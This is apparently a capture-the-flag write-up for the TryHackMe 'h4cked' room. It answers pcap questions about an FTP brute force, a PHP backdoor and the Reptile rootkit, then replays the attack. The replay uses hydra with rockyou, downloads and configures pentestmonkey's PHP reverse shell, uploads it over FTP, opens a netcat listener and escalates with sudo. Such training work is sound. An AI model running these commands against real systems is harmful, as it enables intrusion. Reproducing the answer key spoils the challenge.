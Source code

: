 ```yaml
---
description: https://tryhackme.com/room/h4cked
---
```


# h4cked

## Task 1 oh no! We've been hacked!

#### It seems like our machine got hacked by an anonymous threat actor. However, we are lucky to have a .pcap file from the attack. Can you determine what happened? Download the .pcap file and use Wireshark to view it.

#### The attacker is trying to log into a specific service. What service is this?

![Wireshark Protocol Hierarchy](<../../.gitbook/assets/Screenshot from 2022-02-20 18-17-06.png>)

![Wireshark](<../../.gitbook/assets/Screenshot from 2022-02-20 18-18-14.png>)

{% hint style="success" %}
`FTP`
{% endhint %}

#### There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

![Google for "Van Hauser"](<../../.gitbook/assets/Screenshot from 2022-02-20 18-21-59.png>)

{% hint style="success" %}
`hydra`
{% endhint %}

#### The attacker is trying to log on with a specific username. What is the username?

{% hint style="success" %}
`jenny`
{% endhint %}

#### What is the user's password?

![https://en.wikipedia.org/wiki/List\_of\_FTP\_server\_return\_codes](<../../.gitbook/assets/Screenshot from 2022-02-20 18-30-43.png>)

![ftp.response.code == 230](<../../.gitbook/assets/Screenshot from 2022-02-20 18-29-28.png>)

![tcp.stream == 7](<../../.gitbook/assets/Screenshot from 2022-02-20 18-30-09.png>)

{% hint style="success" %}
`password123`
{% endhint %}

#### What is the current FTP working directory after the attacker logged in?

![ftp.response.code == 230](<../../.gitbook/assets/Screenshot from 2022-02-20 18-35-13.png>)

![tcp.stream == 16](<../../.gitbook/assets/Screenshot from 2022-02-20 18-36-07.png>)

{% hint style="success" %}
`/var/www/html`
{% endhint %}

#### The attacker uploaded a backdoor. What is the backdoor's filename?

![](<../../.gitbook/assets/Screenshot from 2022-02-20 18-40-19.png>)

{% hint style="success" %}
`shell.php`
{% endhint %}

#### The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

![](<../../.gitbook/assets/Screenshot from 2022-02-20 19-02-50.png>)

{% hint style="success" %}
`http://pentestmonkey.net/tools/php-reverse-shell`
{% endhint %}

#### Which command did the attacker manually execute after getting a reverse shell?

![ftp-data](<../../.gitbook/assets/Screenshot from 2022-02-20 19-10-02.png>)

![(ip.dst == 192.168.0.147) && (tcp.dstport == 80)](<../../.gitbook/assets/Screenshot from 2022-02-20 19-08-43.png>)

![Follow TCP Stream](<../../.gitbook/assets/Screenshot from 2022-02-20 19-10-37.png>)

{% hint style="success" %}
`whoami`
{% endhint %}

#### What is the computer's hostname?

![Follow TCP Stream](<../../.gitbook/assets/Screenshot from 2022-02-20 19-24-33.png>)

{% hint style="success" %}
`wir3`
{% endhint %}

#### Which command did the attacker execute to spawn a new TTY shell?

{% hint style="success" %}
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
{% endhint %}

#### Which command was executed to gain a root shell?

{% hint style="success" %}
sudo su
{% endhint %}

#### The attacker downloaded something from GitHub. What is the name of the GitHub project?

{% hint style="success" %}
`Reptile`
{% endhint %}

#### The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

{% hint style="success" %}
`rootkit`
{% endhint %}

## Task 2 Hack your way back into the machine

#### The attacker has changed the user's password! Can you replicate the attacker's steps and read the flag.txt? The flag is located in the /root/Reptile directory. Remember, you can always look back at the .pcap file if necessary. Good luck!

#### Run Hydra on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.

```bash
hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.34.144
```

![hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.34.144](<../../.gitbook/assets/Screenshot from 2022-02-20 19-40-22.png>)

#### Change the necessary values inside the web shell and upload it to the webserver

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
sed -i 's/^$ip =.*/$ip = "10.17.20.154";/' php-reverse-shell.php
sed -i 's/^$port =.*/$port = 4444;/' php-reverse-shell.php
```

```
ftp jenny@10.10.34.144
ftp> put php-reverse-shell.php
ftp> chmod 777 php-reverse-shell.php 
```

![ftp](<../../.gitbook/assets/Screenshot from 2022-02-20 19-53-38.png>)

#### Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![nc -nvlp 4444](<../../.gitbook/assets/Screenshot from 2022-02-20 19-59-18.png>)

#### Become root!

```
su - jenny
sudo -l
sudo su -
```

![](<../../.gitbook/assets/Screenshot from 2022-02-20 20-01-00.png>)

#### Read the flag.txt file inside the Reptile directory

```
ls Reptile
cat Reptile/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-02-20 20-01-01.png>)
